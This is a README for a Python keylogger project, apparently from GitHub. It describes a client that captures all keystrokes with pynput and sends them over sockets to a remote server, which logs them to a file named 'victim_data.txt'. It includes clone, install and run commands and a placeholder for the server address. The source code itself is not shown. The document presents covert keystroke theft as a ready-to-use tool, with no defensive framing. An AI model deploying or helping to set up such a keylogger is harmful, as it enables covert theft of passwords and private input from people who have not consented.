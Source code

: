 # Keylogger Project

This project implements a simple keylogger that captures keystrokes from a client machine and sends them to a server for logging purposes. It utilizes Python for scripting, `pynput` library for capturing keystrokes, and `socket` library for network communication.

## Features

- **Keylogging:** Captures all keystrokes made on the client machine.
- **Network Communication:** Sends captured keystrokes over the network to a remote server.
- **Logging:** Logs keystrokes into a text file on the server.

## Requirements

- Python 3.x
- `pynput` library (for capturing keystrokes)
- Basic understanding of network sockets

## Installation and Setup

1. **Clone the repository:**

    ```bash
    git clone https://github.com/Oxshady/Keylogger--_-.git
    cd keylogger
    ```

2. **Install dependencies:**

    ```bash
    pip install pynput
    ```

## Usage

### Setting up the Server

1. **Run the server script:**

    ```bash
    python server.py
    ```

    This script starts the server, listens for incoming connections, and logs keystrokes received from clients into a file (`./victim_data.txt`).

### Running the Keylogger Client

1. **Configure the Keylogger Client:**

    Modify `client.py` with the IP address and port of your server:

    ```python
    ke = Keylogger("server_ip", "port")  # Replace with your server's IP and port
    ```

2. **Run the keylogger client script:**

    ```bash
    python client.py
    ```

    This script connects to the specified server and starts capturing keystrokes. All captured keystrokes are sent to the server for logging.

## Troubleshooting

- **Connection Issues:** Ensure the server and client are running on the same network or have proper network access.
- **File Permissions:** Ensure the server has write permissions for the `./victim_data.txt` file in the project directory.

## Acknowledgments

- Thanks to the developers of `pynput` and `socket` libraries for their contributions.

